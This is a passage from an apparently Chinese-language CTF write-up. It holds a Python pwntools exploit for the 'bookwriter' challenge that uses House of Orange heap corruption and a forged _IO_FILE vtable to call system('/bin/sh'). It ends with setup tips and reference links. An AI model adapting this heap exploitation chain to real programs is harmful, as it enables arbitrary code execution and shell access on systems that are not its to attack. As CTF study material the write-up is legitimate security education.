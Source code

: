 ```python
    p.recvuntil('a'*0x40)
    result = u64(p.recvline()[0:-1].ljust(8,'\0'))
    p.recvuntil('(yes:1 / no:0) ')
    p.sendline('0')
    return result

#part one
p.recvuntil('Author :')
p.sendline('a'*0x40)


add(0x18,'a'*0x18)   #the real chunk size is 0x20
edit(0,'a'*0x18)
edit(0,'\0'*0x18+'\xe1'+'\x0f'+'\0')
heap_addr = leak_heap()
print hex(heap_addr)
add(0x1000,'a'*0x100) #add top chunk to unsorted bin

for i in range(7):
    add(0x50,'a'*0x8)

#gdb.attach(p)
view(3)
p.recvuntil('aaaaaaaa')
libc_addr  = u64(p.recvline()[0:-1].ljust(8,'\0'))
libc.address = libc_addr - 0x3c3b78

print 'libc_base: ', hex(libc.address)
print 'libc_addr:', hex(libc_addr)
print 'system: ',hex(libc.symbols['system'])
print 'heap: ',hex(heap_addr)
print "_IO_list_all: " + hex(libc.symbols['_IO_list_all'])

data = '\0'*0x2b0
payload = '/bin/sh\0'+p64(0x61)+p64(libc_addr)+p64(libc.symbols['_IO_list_all']-0x10)+p64(2)+p64(3)
payload = payload.ljust(0xc0,'\x00')
payload += p64(0xffffffffffffffff)
payload = payload.ljust(0xd8,'\x00')
vtable = heap_addr + 0x2b0 + 0xd8 + 0x8
payload += p64(vtable)
payload +=p64(0)+p64(0)+p64(1)+p64(libc.symbols['system'])

edit(0,data + payload)
#
p.recvuntil('Your choice :')
p.sendline('1')
p.recvuntil('Size of page :')
p.sendline(str(0x10))
p.interactive()
```
### 特别提醒
> 在自己机器上试的同学, 除了将`libc`改成自己的外, 还要将泄露的地址与`libc_base`之间的偏移改为`0x3c4b78`
>> 本人环境: Ubuntu 16.04.4 LTS
### 参考链接
[极目楚天舒](https://blog.csdn.net/weixin_40850881/article/details/80043934)
[CTF-WiKi](https://ctf-wiki.github.io/ctf-wiki/pwn/io_file/introduction/)
[wolfzhang](https://www.w0lfzhang.com/2016/11/19/File-Stream-Pointer-Overflow/)
[ret2forever](http://tacxingxing.com/2018/01/12/pwnabletw-bookwriter/)
[文件下载](https://github.com/BBS-Bill-Gates/CTF/tree/master/how2heap/house_of_orange/bookwriter)
